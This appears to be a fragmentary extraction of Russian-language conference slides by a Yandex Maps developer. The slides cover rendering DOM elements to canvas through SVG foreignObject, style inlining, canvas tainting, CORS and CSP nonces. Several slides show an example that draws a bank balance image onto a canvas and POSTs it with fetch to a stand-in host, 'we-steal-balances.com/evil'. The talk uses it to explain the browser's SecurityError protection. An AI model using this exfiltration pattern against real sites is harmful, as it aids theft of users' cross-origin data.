Андрей Роенко, Яндекс
Андрей Роенко, Разработчик интерфейсов API Яндекс.Карт




.cur для IE/Edge)


function renderElement(el) {
const style = getComputedStyle(el);
const rect = el.getBoundingClientRect();
// background
canvas.fillStyle = style.background;
canvas.fillRect(rect);
// ...
}


Элемент
foreignObjectпозволяет вставлять элементы из другого неймспейса, которые будут отрисованы другим юзер агентом.
<svg width="400" height="400"
xmlns="http://www.w3.org/2000/svg">
<foreignObject width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml">
<!-- HTML -->
</body>
</foreignObject>
</svg>
<svg width="400" height="400"
xmlns="http://www.w3.org/2000/svg">
<foreignObject width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml">
<h1><b>Hi</b> there!</h1>
</body>
</foreignObject>
</svg>
<svg width="400" height="400"
xmlns="http://www.w3.org/2000/svg">
<foreignObject width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml"
style="height: 100%;
font-size: 96px;
background: linear-gradient(45deg,
rgba(255,255,255,1) 0%, rgba(0,0,0,1) 100%);">
<b>Hi</b> there!
</body>
</foreignObject>
</svg>
<svg width="400" height="400"
xmlns="http://www.w3.org/2000/svg">
<foreignObject width="100%" height="100%">
<body xmlns="http://www.w3.org/1999/xhtml"
class="wrapper">
<b>Hi</b> there!
</body>
<style>
.wrapper {
background: linear-gradient(45deg,
rgba(255,255,255,1) 0%, rgba(0,0,0,1) 100%);
font-size: 96px;
height: 100%;
}
</style>
</foreignObject>
</svg>

<svg> — корневой элементblob:<svg> — часть документаconst img = new Image();
img.src = 'data:image/svg+xml;charset=utf8,<svg ...';
img.onload = () => {
const ctx = canvas.getContext('2d');
ctx.drawImage(img, 0, 0);
canvas.toDataURL();
// или canvas.toBlob(blob => /* ... */);
};



function render(node) {
const html = new XMLSerializer().serializeToString(node);
const svg = `
<svg>
<foreignObject>
${html}
</foreignObject>
</svg>
`;
// ...
}
<canvas><img> внутри, только background-image
data: URL!style-nonce в Firefox<style>
.data .target { color: red; }
</style>
<div class="data">
<h1 class="target">Must be red.</h1>
</div>
→
<h1 class="target">Must be red.</h1>
<style>
.data .target { color: red; }
</style>
<div class="data">
<h1 class="target">Must be red.</h1>
</div>
→ getComputedStyle().cssText →
<div style="/* ... */ color: red; /* ... */">Must be red.</div>
<canvas id="blackSquare" width="200" height="200"></canvas>
→
<canvas id="blackSquare" width="200" height="200"></canvas>
<canvas id="blackSquare" width="200" height="200"></canvas>
→
const dataUri = blackSquare.toDataURL();
→
<div style="background-image: url('data:image/png;...')"></div>
<canvas id="blackSquare" width="200" height="200"></canvas>
→
const dataUri = blackSquare.toDataURL();
// SecurityError: Tainted canvases may not be exported.
<canvas> можно рисовать любые <img> картинкиconst img = new Image();
img.src = 'hugebank.com/online/balance.png';
context2d.drawImage(img, 0, 0);
const balance = canvas.toDataURL();
fetch('we-steal-balances.com/evil', { method: 'POST', body: balance });
const img = new Image();
img.src = 'hugebank.com/online/balance.png';
context2d.drawImage(img, 0, 0);
const balance = canvas.toDataURL();
// SecurityError: Tainted canvases may not be exported.
fetch('we-steal-balances.com/evil', { method: 'POST', body: balance });
Что говорит спецификация:
У картинок и канвасов есть специальный флаг
origin-clean, по умолчанию равныйtrue.
Флаг у картинок устанавливается в
false, если картинка была загружена с другого домена.
Флаг у канваса устанавливается в
false, если на нем была отрисована картинка сorigin-clean = false.
Методы
toDataURL,toBlobиgetImageDataвыбрасываютSecurityErrorеслиorigin-cleanу канваса был установлен вfalse.
Что говорит спецификация:
const img = new Image(); // img.origin-clean = true
img.src = 'hugebank.com/online/balance.png'; // img.origin-clean = false
context2d.drawImage(img, 0, 0); // canvas.origin-clean = false
const balance = canvas.toDataURL();
// SecurityError: Tainted canvases may not be exported.
fetch('we-steal-balances.com/evil', { method: 'POST', body: balance });
Access-Control-Allow-Origin разрешает использовать картинку на других доменах
Access-Control-Allow-Origin: example.comAccess-Control-Allow-Origin: *<canvas id="blackSquare" width="200" height="200"></canvas>
→
const dataUri = blackSquare.toDataURL();
→
<div style="background-image: url('data:image/png;...')"></div>
<img src="pictures/cat.png">
→
<img src="pictures/cat.png">
<img src="pictures/cat.png">
→
const img = new Image();
img.crossOrigin = 'Anonymous';
img.src = 'pictures/cat.png';
canvasContext.drawImage(img, 0, 0);
const dataUri = canvasContext.toDataURL();
→
<div style="background-image: url('data:image/png;...')"></div>
Access-Control-Allow-Origin картинки
Access-Control-Allow-Origin: example.comAccess-Control-Allow-Origin: *<meta http-equiv="Content-Security-Policy" content="style-src 'nonce-cafebabe'">
<style>
.data .wrapper .foobar { color: red; }
</style>
<div class="foobar">stuff</div>
→ getComputedStyle().cssText →
<div style="/* ... */ color: red; /* ... */ ">stuff</div>
WARNING: Content Secutiry Policy violation
<meta http-equiv="Content-Security-Policy" content="style-src 'nonce-cafebabe'">
<style>
.data .wrapper .foobar { color: red; }
</style>
<div class="foobar">stuff</div>
→ getComputedStyle().cssText →
<style nonce="cafebabe">
.uid42 { /* ... */ color: red; /* ... */ }
</style>
<div class="uid42">stuff</div>
<meta http-equiv="Content-Security-Policy" content="style-src blob:">
<style>
.data .wrapper .foobar { color: red; }
</style>
<div class="foobar">stuff</div>
→ getComputedStyle().cssText →
<link rel="stylesheet" href="blob:ilikebigbitsandicannotlie">
<div class="uid42">stuff</div>
blob: не доступны из картинок
function render(node) {
node = inlineEverything(node);
const html = new XMLSerializer().serializeToString(node);
// ...
}
function inlineEverything(node) {
const newNode = document.createElement(tagName);
// ...
return newNode;
}

| Chromiums | Firefox | Edge | Safari | Opera 12 | |
|---|---|---|---|---|---|
| data-uri | ✔ | ✔ | ✔ | ✔ | ✔ |
| blob | ✔ | ✔ | ✖ | ✖ | ✖ |
| Chromiums | Firefox | Edge | Safari | Opera 12 | |
|---|---|---|---|---|---|
| image/svg+xml | ✔ | ✔ | ✔ | ✔ | ✔ |
| image/png | ✔ | ✔ | ✔ | ✖ | ✖ |
| image/jpg | ✔ | ✔ | ✔ | ✖ | ✖ |
| image/webp | ✔ | ✖ | ✖ | ✖ | ✖ |
<img> только один раз<canvas> и получить что-то кроме image/svg+xml невозможно
<canvas> при отрисовке blob: картинокonload для SVG с картинками, надо делать предзагрузку картинокonload для SVG с картинками, и его авторам норм<foreignObject>
style-src: blob
canvas.toDataURL()
Разработчик интерфейсов API Яндекс.Карт